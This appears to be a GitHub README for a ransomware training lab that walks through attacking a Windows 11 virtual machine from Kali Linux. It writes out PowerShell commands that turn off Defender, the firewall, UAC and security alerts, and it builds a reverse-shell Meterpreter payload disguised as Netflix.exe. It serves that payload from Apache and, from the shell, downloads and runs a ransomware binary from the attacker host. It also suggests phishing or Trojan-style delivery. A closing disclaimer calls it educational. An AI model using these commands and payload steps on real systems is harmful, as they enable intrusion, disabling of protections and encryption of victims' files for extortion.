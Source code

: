 # Ransomware Training Project Live Lab
Environment Structure
Virtualization
Platform: VirtualBox
Network Components
Firewall/Router: pfSense
Systems
Attacker Machine: Kali Linux (on the same LAN as the target)
Target Machine: PC11 with Windows 11 (on the same LAN as the attacker)
Tools Used
Metasploit: For exploit development and payload deployment
Meterpreter: For post-exploitation and reverse shell capabilities
SET Toolkit (Social Engineering Toolkit): To simulate social engineering attacks
Apache2: For hosting payloads and web-based attack vectors
PowerShell: For executing commands on Windows to disable security features and set up the reverse shell
Project Overview and Observations
The initial step in this project is to ensure that both virtual machines (attacker and target) are on the same network to avoid complexities. This configuration avoids the need for inter-LAN attacks, which would require advanced configurations like separate LANs and routing.

Disabling Security Features on Target
To prepare the Windows 11 VM, several PowerShell commands with administrative privileges are run to disable key security components:

Disable Windows Defender Real-Time Monitoring:

powershell
Copy code
Set-MpPreference -DisableRealtimeMonitoring $true
Disable Windows Firewall:

powershell
Copy code
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
Disable User Account Control (UAC):

powershell
Copy code
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "EnableLUA" -Value 0
Suppress Windows Security Notifications:

powershell
Copy code
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Notifications\Settings" -Name "NOC_GLOBAL_SETTING_TOASTS_ENABLED" -Value 0 -PropertyType DWORD -Force
After these commands, check the Windows Security UI for alerts and verify that key security features are disabled (e.g., Firewall, Virus protection, UAC, Tamper Protection).

Additional Manual Steps
Some features need manual configuration:

Disable Microsoft Defender SmartScreen:

Go to Windows Security > App & Browser Control.
Turn off Check apps and files and SmartScreen for Microsoft Edge.
Disable Tamper Protection:

Go to Windows Security > Virus & threat protection settings.
Deploying the Setup
You can compile PowerShell scripts or commands into a .ps1 file. Social engineering methods (like phishing or Trojan-style embedding) may be used to execute the script.

Network Scanning
Identify the IP Address of the Kali machine to understand the subnet.
Nmap Scan on LAN IP range 192.168.1.0/24:
bash
Copy code
nmap -sV 192.168.1.0/24
This scan identifies network endpoints, IP addresses, open ports, and services, helping locate the Windows machine.
Creating the Payload
Using the Social Engineering Toolkit (SET):

Launch SET and choose:
Option 1: Social Engineering
Option 4: Create a payload and listener
Option 2: Windows Reverse_TCP Meterpreter
Configure the payload:
Enter the IP address of your Kali machine.
Use a port, e.g., 88.
Running Apache2
The Apache2 server hosts the payload:

Check Apache2 Status:
bash
Copy code
service apache2 status
Copy the Payload:
bash
Copy code
cp /root/.set/payload.exe /var/www/html/Netflix.exe
Start Apache2 Server:
bash
Copy code
service apache2 start
Setting Up the Listener
Return to the terminal where the payload listener prompt was left open. Confirm by entering yes to load the listener in msfconsole:

bash
Copy code
msf6 exploit(multi/handler) >
Downloading and Running the Payload
To access the payload, download it on the Windows machine from the LAN address:

plaintext
Copy code
192.168.1.102/Netflix.exe
Executing the Shell and Ransomware Attack
After executing the payload, connect to the session with Meterpreter:

bash
Copy code
sessions -i 1
Download Ransomware Payload:
bash
Copy code
curl -O 192.168.1.102/CashCat.exe
Execute the Ransomware:
bash
Copy code
start CashCat.exe
This encrypts files with an extension (e.g., .porno), making them unusable. To decrypt:

plaintext
Copy code
123456789
Disclaimer
This demonstration is strictly for educational purposes, showcasing ethical hacking practices. The project emphasizes proficiency with cybersecurity tools, scripting languages, and general knowledge of cybersecurity techniques.

